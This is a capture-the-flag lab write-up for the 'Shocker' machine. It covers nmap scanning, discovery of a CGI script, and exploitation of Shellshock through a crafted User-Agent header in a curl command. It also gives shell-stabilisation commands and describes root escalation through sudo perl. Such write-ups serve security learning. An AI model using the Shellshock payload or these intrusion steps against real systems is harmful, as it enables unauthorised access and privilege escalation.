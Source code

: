 ```yaml
---
title: Shocker Writeup(Easy)
published: true
---
```


# [](#header-2)Recognition

First of all we do a scan with nmap:

```bash
sudo nmap -sS -p- --open 10.129.50.136 -n -Pn -v
```

The nmap command reported the following ports:
*   Port 80
*   Port 2222

We do a second, more advanced scan:

```bash
sudo nmap -sCV -p80,2222 10.129.50.136
```

The scan reports the following information:

![Escaneo nmap](/assets/shocker/nmapScan.png)

We can see that the **ssh** version is vulnerable to **user enumeration(CVE-2016-6210)** and there is a **web service** running with Apache.

For the moment we are going to start with the web server.

![whatweb command](/assets/shocker/whatweb.png)

The **whatweb** command doesn't give us much information so let's visit the website.

![website](/assets/shocker/website.png)

In the website there is only one image, but after using gobuster to search other directories we found the **cgi-bin** directory.

![gobuster cgi-bin](/assets/shocker/cgi-bin.png)

Now we fuzz in this directory for any file with the extension  **cgi, sh, pl, py**.

![gobuster user.sh](/assets/shocker/usersh.png)

After some research I discovered that cgi scripts can be vulnerable to [shellsock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) so we try to change the **User-Agent**.

We use the following command and we can execute the command **id**, so we try to get a reverse shell.

```bash
curl -s -X GET "http://10.129.50.136/cgi-bin/user.sh" -H "User-Agent: () { :; }; echo; /usr/bin/id"
```

We use nc to get a reverse shell:

![reverse shell](/assets/shocker/reverseshell.png)

Now we use the command from [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) to get a full tty shell:

```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

We get the **user flag** from the home directory:

![user flag](/assets/shocker/userflag.png)

Using the command **sudo -l** we can see that we can execute perl as **root**.

![sudo -l](/assets/shocker/sudo-l.png)

Using the [gtfobins](https://gtfobins.github.io/gtfobins/perl/#shell) command we can get a shell as **root**.

![privilege escalation](/assets/shocker/privesc.png)

Now that we are root we can see the root flag.

![root flag](/assets/shocker/rootflag.png)
